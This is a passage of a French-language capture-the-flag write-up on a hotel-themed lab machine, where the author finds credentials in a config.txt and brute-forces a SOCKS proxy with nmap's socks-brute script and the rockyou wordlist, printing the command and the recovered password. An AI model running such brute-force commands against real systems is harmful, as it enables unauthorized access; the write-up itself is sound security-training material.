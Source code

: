 Là encore le serveur n'a pas été un foudre de guerre et c'est finalement en cherchant les fichiers texte sur la racine que j'ai obtenus quelques détails intéressants.  

Il y a par exemple un *CHANGELOG.txt* avec le numéro de version *V1.5.0 QloApps* mais surtout le fichier *config.txt* avec le contenu suivant :  

```plain
Service-Access to camera-surveillance network: 192.168.1.0/24
..
Username: Prime
password: temppassword (changed regulary )
```

Chaussettes trouées
-------------------

Cette note mentionne un réseau différent mais les identifiants ne semblent pas fonctionner pour le serveur SOCKS.  

Au passage Firefox ne permet pas de spécifier des identifiants pour un proxy SOCKS il a donc fallut installer [l'extension Proxy Toggle](https://addons.mozilla.org/en-US/firefox/addon/proxy-toggle/) qui fait bien le taff.  

Les identifiants n"étant pas acceptés sur l'appli web il est tant de bruteforcer le proxy SOCKS. Nmap dispose d'un module pour cela mais utilise par défaut sa propre liste de comptes et mots de passe.  

Un module Nmap hérite souvent de modules de base et pour savoir quelles options passer il faut un peu fouiller dans la documentation [du module](https://nmap.org/nsedoc/scripts/socks-brute.html) et du module parent [pour le brute force](https://nmap.org/nsedoc/lib/unpwdb.html#script-args).  

J'ai créé une petite liste d'utilisateurs à partir des infos glanées jusqu'à présent :  

```plain
prime
Prime
worstwestern
hotel
guest
worst
western
global
```

puis j'ai fournit la fameuse wordlist rockyou pour les mots de passe :  

```bash
$ nmap --script socks-brute --script-args userdb=wordlist.txt,passdb=rockyou.txt -p 1080 192.168.56.9

Nmap scan report for prime.worstwestern.com (192.168.56.9)
Host is up (0.00029s latency).

PORT     STATE SERVICE
1080/tcp open  socks
| socks-brute: 
|   Accounts: 
|     Prime:tinkerbell1 - Valid credentials
|_  Statistics: Performed 381182 guesses in 900 seconds, average tps: 411.5

Nmap done: 1 IP address (1 host up) scanned in 918.24 seconds
```
